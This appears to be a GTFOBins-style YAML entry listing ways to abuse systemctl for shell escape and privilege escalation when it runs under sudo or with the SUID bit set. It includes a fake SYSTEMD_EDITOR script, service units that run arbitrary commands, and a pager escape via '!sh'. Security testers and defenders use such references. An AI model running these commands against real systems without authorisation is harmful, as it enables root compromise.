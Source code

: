 ```yaml
---
functions:
  shell:
    - code: |
        cat >/tmp/getshell <<EOF
        #!/usr/bin/env bash
        bash
        EOF
        chmod +x /tmp/getshell
        sudo SYSTEMD_EDITOR=/tmp/getshell systemctl edit <SERVICE>
    - description: This invokes the `SYSTEMD_EDITOR` that is specified. You could also just use `vi` and start a subshell manually.
  suid:
    - code: |
        TF=$(mktemp).service
        echo '[Service]
        Type=oneshot
        ExecStart=/bin/sh -c "id > /tmp/output"
        [Install]
        WantedBy=multi-user.target' > $TF
        ./systemctl link $TF
        ./systemctl enable --now $TF
  sudo:
    - code: |
        TF=$(mktemp).service
        echo '[Service]
        Type=oneshot
        ExecStart=/bin/sh -c "id > /tmp/output"
        [Install]
        WantedBy=multi-user.target' > $TF
        sudo systemctl link $TF
        sudo systemctl enable --now $TF
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo systemctl
        !sh
---
```

